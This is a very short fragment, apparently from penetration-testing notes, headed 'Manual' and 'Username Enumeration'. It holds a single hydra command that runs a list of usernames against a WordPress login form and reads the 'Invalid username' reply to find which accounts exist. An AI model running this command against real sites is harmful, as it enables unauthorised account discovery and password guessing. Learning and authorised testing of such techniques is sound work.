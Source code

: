 # Manual

## Username Enumeration

```
$ hydra -V -L users.lst -p password <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```